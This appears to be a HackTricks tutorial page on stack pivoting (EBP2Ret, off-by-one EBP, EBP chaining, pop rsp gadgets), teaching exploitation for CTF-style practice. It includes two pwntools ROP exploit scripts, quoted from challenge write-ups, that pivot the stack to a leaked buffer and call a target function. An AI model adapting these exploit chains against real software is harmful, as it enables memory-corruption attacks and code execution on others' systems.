 # Stack Pivoting - EBP2Ret - EBP chaining

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

This technique exploits the ability to manipulate the **Base Pointer (EBP)** to chain the execution of multiple functions through careful use of the EBP register and the `leave; ret` instruction sequence.

As a reminder, **`leave`** basically means:

```
movl               %ebp, %esp
popl               %ebp
ret
```

And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

This technique is particularly useful when you can **alter the EBP register but have no direct way to change the EIP register**. It leverages the behaviour of functions when they finish executing.

If, during `fvuln`'s execution, you manage to inject a **fake EBP** in the stack that points to an area in memory where your shellcode's address is located (plus 4 bytes to account for the `pop` operation), you can indirectly control the EIP. As `fvuln` returns, the ESP is set to this crafted location, and the subsequent `pop` operation decreases ESP by 4, **effectively making it point to an address store by the attacker in there.**\
Note how you **need to know 2 addresses**: The one where ESP is going to go, where you will need to write the address that is pointed by ESP.

#### Exploit Construction

First you need to know an **address where you can write arbitrary data / addresses**. The ESP will point here and **run the first `ret`**.

Then, you need to know the address used by `ret` that will **execute arbitrary code**. You could use:

* A valid [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) address.
* The address of **`system()`** followed by **4 junk bytes** and the address of `"/bin/sh"` (x86 bits).
* The address of a **`jump esp;`** gadget ([**ret2esp**](ret2esp-ret2reg.md)) followed by the **shellocde** to execute.
* Some [**ROP**](rop-return-oriented-programing.md) chain

Remember than before any of these addresses in the controlled part of the memory, there must be **`4` bytes** because of the **`pop`** part of the `leave` instruction. It would be possible to abuse these 4B to set a **second fake EBP** and continue controlling the execution.

#### Off-By-One Exploit

There's a specific variant of this technique known as an "Off-By-One Exploit". It's used when you can **only modify the least significant byte of the EBP**. In such a case, the memory location storing the address to jumo to with the **`ret`** must share the first three bytes with the EBP, allowing for a similar manipulation with more constrained conditions.

### **EBP Chaining**

Therefore, putting a controlled address in the `EBP` entry of the stack and an address to `leave; ret` in `EIP`, it's possible to **move the `ESP` to the controlled `EBP` address from the stack**.

Now, the **`ESP`** is controlled pointing to a desired address and the next instruction to execute is a `RET`. To abuse this, it's possible to place in the controlled ESP place this:

* **`&(next fake EBP)`** -> Load the new EBP because of `pop ebp` from the `leave` instruction
* **`system()`** -> Called by `ret`
* **`&(leave;ret)`** -> Called after system ends, it will move ESP to the fake EBP and start agin
* **`&("/bin/sh")`**-> Param fro `system`

Basically this way it's possible to chain several fake EBPs to control the flow of the program.

Tbh, this is like a [ret2lib](ret2lib/), but more complex with no apparent benefit but could be interesting in some edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of anoter fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,         # Load leak address in RBP
    LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```

## EBP is useless

As [**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), if a binary is compiled with some optimizations, the **EBP never gets to control ESP**, therefore, any exploit working by controlling EBP sill basically fail because it doesn't have ay real effect.\
This is because the **prologue and epilogue changes** if the binary is optimized.

* **Not optimized:**

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

* **Optimized:**

```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

## Other ways to control RSP

### **`pop rsp`** gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) you can find an example using this technique. For this challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and 
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg \<rag>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <rag>, rsp
```

## References

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
